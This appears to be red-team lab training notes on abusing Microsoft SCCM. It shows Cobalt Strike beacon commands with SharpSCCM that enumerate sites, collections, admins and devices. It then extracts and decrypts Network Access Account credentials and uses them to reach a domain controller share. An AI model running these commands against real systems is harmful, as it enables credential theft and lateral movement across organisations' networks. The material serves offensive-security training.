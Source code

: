# Configuration Manager

Microsoft Configuration Manager (aka ConfigMgr, MCM, or Systems Center Configuration Manager) is now under Microsoft's Intune brand umbrella. Most still refer to it as SCCM. Fundamentally, SCCM's role is to help with system management tasks such as software deployments, updates, and compliance configuration/reporting. The ability to connect multiple sites helps with scalability, particularly when dealing with different geographic locations. SCCM is an attractive target for attackers because given enough privilege, it can be used to push malicious scripts and applications to devices that it manages. 

The deployment in the RTO lab is only setup as a single site in order to demonstrate basic abuse primitives against Configuration Manager. There are other, including [this post](https://medium.com/specter-ops-posts/sccm-hierarchy-takeover-41929c61e087) that describes how a compromised primary site also compromises the entire hierarchy.

## Enumeration

First understand the deployment topology, which devices are being managed, and who the admins are. Given a foothold on a machine, begin by finding the management point and site code that it is linked to. This does not require any special privileges in the domain, in SCCM or on the endpoint.

    beacon> run hostname
    wkstn-2
    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner

This enumeration uses WMI under the hood, done manually is:

    beacon> powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl

Can also check the DACL on the CN=System Management container in AD for machines that have Full Control over it (as this a pre-requisite of SCCM setup in a domain):

    beacon> execute-assembly SharpSCCM.exe get site-info -d cyberbotic.io --no-banner

Enumerating users, groups, computers, collections, and administrators, etc, cannot be done as a standard domain user. SCCM employs RBAC. A description of each role [can be found here](https://learn.microsoft.com/en-us/mem/configmgr/core/understand/fundamentals-of-role-based-administration). The scope of these roles can be restricted to individual collections as needed by admin. For example, computers from the DEV and CYBER domains can be grouped into their own collections. This can really impact an attacker's view of how SCCM is configured. If we enumerate all the collections as one user, we can see that both DEV and CYBER exist as well as their member counts.

    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> execute-assembly SharpSCCM.exe get collections --no-banner
    MemberCount: 4

However, if we run the same enumeration as jking, a member of DEV\Support Engineers, we only see the DEV collection:

    beacon> make_token DEV\jking Qwerty123
    [+] Impersonated DEV\jking (netonly)
    beacon> execute-assembly SharpSCCM.exe get collections --no-banner
    MemberCount: 6

because though DEV\Developers are only "Read-Only Analysts", the role is scoped to both collections. DEV\Support Engineers are "Full Administrators" over the DEV collection but they have no roles that are scoped to the CYBER collection. When enumerating SCCM, you may only see a portion based on the user you're running the enumeration as.

Administrative users can be found using get class-instances SMS_Admin; this shows what is reflected in the Configuration Manger GUI.

    beacon> execute-assembly SharpSCCM.exe get class-instances SMS_Admin --no-banner

Members of these collections can be found using get collection-members -n <collection-name>:

    beacon> execute-assembly SharpSCCM.exe get collection-members -n DEV --no-banner

More information on each device can be obtained using get devices. There are some good ways to filter the output, such as searching by device name, -n, and only displaying the properties specified by -p.

    beacon> execute-assembly SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner

Use SCCM as a form of user hunting, since it records the last user to login to each managed computer. The -u parameter will only return devices where the given user was the last to login:

    beacon> execute-assembly SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner

These results are updated in SCCM every 7 days by default.

## Network Access Account Credentials

In a Windows environment, most computers are domain-joined and authenticate to SCCM Software Distribution Points (SDPs) (SMB shares) using their credentials. Network Access Account credentials (NAAs) are domain credentials used by computers not domain-joined. They are passed to the machines as part of the SCCM machine policies, which are encrypted using DPAPI and stored locally. If present, privileged users can retrieve these credential blobs via WMI or directly from disk and decrypt them to recover plaintext credentials. Use local naa with -m wmi or -m disk:

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    beacon> execute-assembly SharpSCCM.exe local naa -m wmi --no-banner

These credentials should only have read access to the SDP, but are often times over privileged (sometimes even domain/enterprise admins).

    beacon> make_token cyberbotic.io\sccm_svc Cyberb0tic
    [+] Impersonated cyberbotic.io\sccm_svc (netonly)
    beacon> ls \\dc-1.cyberbotic.io\c$
   
Or request a copy of the policy directly from SCCM using ```get naa``` (requires LA to obtain a copy of its SMS Signing and SMS Encryption certs).

## 
